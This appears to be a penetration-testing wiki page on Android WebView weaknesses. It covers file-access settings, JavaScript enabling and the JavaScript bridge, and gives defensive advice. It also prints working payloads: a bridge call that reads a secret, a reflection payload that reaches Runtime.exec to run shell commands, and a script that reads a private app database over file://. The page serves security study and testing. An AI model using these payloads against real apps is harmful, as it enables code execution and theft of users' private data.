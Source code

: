 # Webview Attacks

## Interesting Configurations

### File Access

_WebView_ file access is enabled by default. Since API 3 \(Cupcake 1.5\) the method [_setAllowFileAccess\(\)_](https://developer.android.com/reference/android/webkit/WebSettings.html#setAllowFileAccess%28boolean%29) is available for explicitly enabling or disabling it.  
If the application has _**android.permission.READ\_EXTERNAL\_STORAGE**_ it will be able to read and load files **from the external storage**.  
The _WebView_ needs to use a File URL Scheme, e.g., `file://path/file`, to access the file.

#### Universal Access From File URL \(Deprecated\)

> Sets whether **cross-origin requests** in the **context of a file** scheme URL should be allowed to access **content from any origin**. This includes **access to content from other file scheme URLs or web contexts.** Note that some access such as image HTML elements doesn't follow same-origin rules and isn't affected by this setting.
>
> **Don't** enable this setting if you open files that may be created or altered by external sources. Enabling this setting **allows malicious scripts loaded in a `file://`** context to launch cross-site scripting attacks, either **accessing arbitrary local files** including WebView cookies, app private data or even credentials used on arbitrary web sites.

In summary this will **prevent loading arbitrary Origins.** The app will send the URL request lo load the content with **`Origin: file://`** if the response doesn't allow that origin \(**`Access-Control-Allow-Origin: file://`**\) then the content won't be loaded.  
The **default value is `false`** when targeting [`Build.VERSION_CODES.JELLY_BEAN`](https://developer.android.com/reference/android/os/Build.VERSION_CODES#JELLY_BEAN) and above.

* Use [`getAllowUniversalAccessFromFileURLs()`](https://developer.android.com/reference/android/webkit/WebSettings#getAllowUniversalAccessFromFileURLs%28%29) to know whether JavaScript running in the context of a file scheme URL can access content from any origin \(if UniversalAccessFromFileURL is enabled\).
* Use [`setAllowUniversalAccessFromFileURLs(boolean)`](https://developer.android.com/reference/android/webkit/WebSettings#setAllowUniversalAccessFromFileURLs%28boolean%29) to enable/disable it.

{% hint style="info" %}
Using **`loadDataWithBaseURL()`** with `null` as baseURL will also **prevent to load local files** even if all the dangerous settings are enabled.
{% endhint %}

#### File Access From File URLs \(Deprecated\) <a id="getAllowFileAccessFromFileURLs()"></a>

> Sets whether cross-origin requests in the context of a file scheme URL should be allowed to access content from other file scheme URLs. Note that some accesses such as image HTML elements don't follow same-origin rules and aren't affected by this setting.
>
> **Don't** enable this setting if you open files that may be created or altered by external sources. Enabling this setting allows malicious scripts loaded in a `file://` context to **access arbitrary local files** including WebView cookies and app private data.

In summary, this prevents javascript to access local files via `file://` protocol.  
Note that **the value of this setting is ignored** if the value of [`getAllowUniversalAccessFromFileURLs()`](https://developer.android.com/reference/android/webkit/WebSettings#getAllowUniversalAccessFromFileURLs%28%29) is `true`.   
The **default value is `false`** when targeting [`Build.VERSION_CODES.JELLY_BEAN`](https://developer.android.com/reference/android/os/Build.VERSION_CODES#JELLY_BEAN) and above.

* Use [`getAllowUniversalAccessFromFileURLs()`](https://developer.android.com/reference/android/webkit/WebSettings#getAllowUniversalAccessFromFileURLs%28%29) to know Gets whether JavaScript running in the context of a file scheme URL can access content from any origin \(if AllowFileAccessFromFileURLs is enabled\)
* Use [`setAllowFileAccessFromFileURLs(boolean)`](https://developer.android.com/reference/android/webkit/WebSettings#setAllowFileAccessFromFileURLs%28boolean%29) to enable/disable it.

#### File Access

> Enables or disables **file access within WebView**. Note that this enables or disables file system access only. Assets and resources are still accessible using file:///android\_asset and file:///android\_res.

In summary, if disable, the WebView won't be able to load a local file with the `file://` protocol.  
The **default value is`false`** when targeting [`Build.VERSION_CODES.R`](https://developer.android.com/reference/android/os/Build.VERSION_CODES#R) and above.

* Use [`getAllowFileAccess()`](https://developer.android.com/reference/android/webkit/WebSettings#getAllowFileAccess%28%29) to know if the configuration is enabled.
* Use [`setAllowFileAccess(boolean)`](https://developer.android.com/reference/android/webkit/WebSettings#setAllowFileAccess%28boolean%29) to enable/disable it.

### Javascript Enabled

WebViews have Javascript **disabled by default**. The method [`setJavaScriptEnabled()`](https://developer.android.com/reference/android/webkit/WebSettings.html#setJavaScriptEnabled%28boolean%29) is can explicitly enabling or disabling it.   
Note that webviews can also support the **`intent`** **scheme** that allows to fire other applications. Read this [writeup to find how to go from XSS to RCE](https://medium.com/@dPhoeniixx/tiktok-for-android-1-click-rce-240266e78105).

### Javascript Bridge

Android offers a way for JavaScript executed in a WebView to call and use **native functions of an Android app** \(annotated with `@JavascriptInterface`\) by using the [`addJavascriptInterface`](https://developer.android.com/reference/android/webkit/WebView.html#addJavascriptInterface%28java.lang.Object,%20java.lang.String%29) method. This is known as a _WebView JavaScript bridge_ or _native bridge_.

Please note that **when you use `addJavascriptInterface`, you're explicitly granting access to the registered JavaScript Interface object to all pages loaded within that WebView**. This implies that, if the user navigates outside your app or domain, all other external pages will also have access to those JavaScript Interface objects which might present a potential security risk if any sensitive data is being exposed though those interfaces.

> Warning: Take extreme care with apps targeting Android versions below Android 4.2 \(API level 17\) as they are [vulnerable to a flaw](https://labs.mwrinfosecurity.com/blog/webview-addjavascriptinterface-remote-code-execution/) in the implementation of `addJavascriptInterface`: an attack that is abusing reflection, which leads to remote code execution when malicious JavaScript is injected into a WebView. This was due to all Java Object methods being accessible by default \(instead of only those annotated\).

#### Static Analysis

```javascript
//Class with a method to access a secret
public class JavascriptBridge {
    // Since Android 4.2 (JELLY_BEAN_MR1, API 17) methods
    // not annotated with @JavascriptInterface are not visible from JavaScript
    @JavascriptInterface
    public String getSecret() {
        return "SuperSecretPassword";
    };
}
```

```javascript
//Enabling Javascript Bridge exposing an object of the JavascriptBridge class
webView.addJavascriptInterface(new JavascriptBridge(), "javascriptBridge");
webView.reload();
```

```markup
<!-- Exploit to get the secret from JavaScript -->
<script>alert(javascriptBridge.getSecret());</script>
```

With access to the JavaScript code, via, for example, via stored **XSS,** **MITM** attack or a **malicious** **website** that is loaded inside the WebView, can directly call the exposed Java methods.

{% hint style="info" %}
Note that in the case of trying to exploit this vulnerability via an **Open Redirect to an attackers web page that access the Native Android Objet**. If the access to the redirection is done via a mobile **browser** and **not using** the same **WebView**, the **browser won't be able to access the native Android object**.
{% endhint %}

If `addJavascriptInterface` is necessary, take the following considerations:

* **Only JavaScript provided** with the APK should be allowed to use the bridges, e.g. by verifying the URL on each bridged Java method \(via `WebView.getUrl`\).
* **No JavaScript should be loaded from remote endpoint**s, e.g. by keeping page navigation within the app's domains and opening all other domains on the default browser \(e.g. Chrome, Firefox\).
* If necessary for legacy reasons \(e.g. having to support older devices\), **at least set the minimal API level to 17** in the manifest file of the app \(`<uses-sdk android:minSdkVersion="17" />`\).

### Javascript Bridge to RCE via Reflection

As noted in [**this research** ](https://labs.f-secure.com/archive/webview-addjavascriptinterface-remote-code-execution/)\(_check it for ideas in case you obtain RCE_\) ****once you found a JavascriptBridge it may be possible to obtain **RCE** via **Reflection** using a payload like the following one:

```markup
<!-- javascriptBridge is the name of the Android exposed object -->
<script>
function execute(cmd){
  return javascriptBridge.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec(cmd);
}
execute(['/system/bin/sh','-c','echo \"mwr\" > /mnt/sdcard/mwr.txt']);
</script>
```

However modern applications may use the **`@JavascriptInterface` annotation** that indicates to the JavascriptBridge that **only** the method with this annotation should be **exposed**.  
In that scenario, you won't be able to abuse Reflection to execute arbitrary code.

## Payloads

### Exfiltrate arbitrary files

```javascript
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        alert(xhr.responseText);
    }
}
xhr.open('GET', 'file:///data/data/com.authenticationfailure.wheresmybrowser/databases/super_secret.db', true);
xhr.send(null);
```

## References

{% embed url="https://github.com/authenticationfailure/WheresMyBrowser.Android" %}

{% embed url="https://developer.android.com/reference/android/webkit/WebView" %}



